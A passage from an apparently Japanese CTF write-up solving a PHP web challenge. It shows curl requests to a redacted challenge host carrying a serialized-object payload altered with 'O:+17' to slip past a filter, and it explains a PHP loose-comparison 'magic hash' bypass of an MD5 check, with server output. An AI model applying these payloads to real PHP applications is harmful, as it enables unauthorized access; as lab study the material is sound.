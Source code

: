 ```php
$a = str_replace('17', '+17', $a);
echo $a . "\n";
```

```
$ php ser.php
O:+17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}
```

試してみましょう。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=/dev/fd/11&fourth=O:%2b17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}'
Where would you find the components of the injection?
```

次に進むことができました。

### `$_GET["fifth"]`
```php
<?php
$md5sum = md5(trim(file_get_contents("secret_pass.txt")));
if (preg_match("/\/[a-z\.\/]+$/i", $_POST["fifth"])) {
    if (file_exists($_POST["fifth"]) && substr(md5($_POST["fifth"]), 0, 8) == $md5sum) {
      // …
    }
    else {
        echo "{$md5sum}<br />";
        die("You lost against the jugling of Rick.");
    }
}
else {
    die("You touched something that you're not supposed to touch.");
}
```

`secret_pass.txt` の内容の MD5 ハッシュと、`$_POST["fifth"]` の MD5 ハッシュの先頭 8 文字を切り出した文字列が等しければよいようです。

無茶苦茶なことを言っていますが、よく見ると比較に `==` とゆるい比較演算子が使われていることがわかります。PHP の `==` は、文字列同士の比較であっても `'0e123' == '0e456'` のように左辺と右辺のいずれも数値っぽい文字列であれば数値として比較され、この例の場合 `0` 同士の比較として真になります。

`/\/[a-z\.\/]+$/i` にマッチするような文字列を与えた上で、`file_exists($_POST["fifth"]) && substr(md5($_POST["fifth"]), 0, 8) == $md5sum` が偽なら `$md5sum` が出力されるようです。試してみましょう。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=/dev/fd/11&fourth=O:%2B17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}' -d 'fifth=/etc'
0e291242476940776845150308577824<br />You lost against the jugling of Rick.
```

`0e291242476940776845150308577824` ときれいに Magic Hash になっています。
